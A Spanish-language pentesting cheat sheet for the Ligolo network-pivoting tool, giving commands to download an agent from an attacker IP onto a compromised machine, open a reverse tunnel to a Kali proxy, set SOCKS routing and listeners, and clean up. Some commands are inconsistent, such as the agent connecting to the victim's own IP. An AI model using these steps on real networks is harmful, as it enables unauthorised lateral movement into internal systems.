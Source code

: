 # 🚀 LIG0L0 - Red Pivoting y Túneles TCP/UDP

LIG0L0 es una herramienta de **pivoting de red y túneles TCP/UDP**, que permite redirigir tráfico de máquinas comprometidas hacia la máquina atacante para realizar pruebas de pentesting internas.

---

## **1️⃣ Preparación del entorno**

### Extraer archivos

```bash
tar -xf ligolo.tar.gz
```
## Crear interfaz TUN en Linux
```bash
sudo ip tuntap add user $USER mode tun ligolo

sudo ip link set ligolo up
```

## Configurar red de pivoting
* red_pivoting -> 192.168.1.0/24
```bash
sudo ip route add red_pivoting dev ligolo
```


## 2️⃣ Configuración en Kali Linux (Atacante)
* ip -> 10.0.2.100
* Dar permisos de ejecución al proxy
```bash
chmod +x proxy
```
* Ejecutar el proxy con certificado autofirmado:
```bash
./proxy -selfcert
```
* Puerto usado para la conexión: 11601




## 3️⃣ Configuración en Máquina Pivoting (Victima 1)
* IP de la víctima: 10.0.2.101
* IP interna de red a pivotear: 192.168.1.101


wget http://10.0.2.100/agente

```bash
chmod +x agente

./agente -connect 10.0.2.101:11601  -ignore-cert
```

4️⃣ Operaciones desde Kali

* Iniciar sesión en LIG0L0:

    - session   
    - Enter 
    - start 
* Probar conectividad hacia la red interna:
    - ping -c 1  192.168.1.102  
* Agregar listener para redireccionar tráfico:
    - listener_add --addr 0.0.0.0:4443 --to  127.0.0.1:4443 
    - listener_list

5️⃣ Máquina Victima 2 (Objetivo de Pivoting)  
* IP interna: 192.168.1.102
* Ahora podemos acceder a esta máquina a través de la víctima pivotante usando LIG0L0 y los listeners configurados.

6️⃣ Limpieza / Remoción del Pivoting
* Eliminar ruta de pivoting:

```bash
sudo ip route del red_pivoting dev ligolo
```

* Eliminar interfaz TUN:
```bash
sudo ip link del ligolo
```
---
# MODO Redireccion Todos los Puertos

## 1️⃣ Configuración básica

* En la máquina atacante (Kali):
* Ejecuta el proxy de LIG0L0 con certificado autofirmado:
```bash
chmod +x proxy
./proxy -selfcert
```

## 2️⃣ Redirección de tráfico completo (SOCKS)

* Para que todo el tráfico de la víctima pase a través de Kali, debes configurar LIG0L0 con modo SOCKS y luego usarlo con Proxychains o configurar la ruta:

* En la máquina pivoting, habilita SOCKS:
```bash
./agente -connect 10.0.2.100:11601 -ignore-cert -socks
```

- Nota: el parámetro -socks indica que quieres que el agente cree un proxy SOCKS local en la máquina atacante.

### Configura Proxychains en Kali para usar el SOCKS que creó LIG0L0:
```bash
sudo nano /etc/proxychains4.conf
```

* Agrega o edita la línea:
```bash
socks5 127.0.0.1 1080
```

* 1080 es el puerto del SOCKS que LIG0L0 crea por defecto (ajústalo si usaste otro).

### Prueba redirigiendo tráfico a través del SOCKS:
```bash
proxychains4 curl http://192.168.1.102
```

* Todo el tráfico ahora pasa por el agente LIG0L0 hacia Kali, y luego hacia la red interna.

## 3️⃣ Alternativa: redirección de toda la subred interna

Si quieres que toda la red interna de la víctima pase por Kali:

Configura la ruta en la víctima pivotante:
```bash
sudo ip route add 192.168.1.0/24 dev ligolo
```

* Esto redirige todo el tráfico de la subred 192.168.1.0/24 a través del túnel creado por LIG0L0.

* En Kali, asegúrate de tener el proxy/escucha activo (./proxy -selfcert) y revisa con listener_list que esté funcionando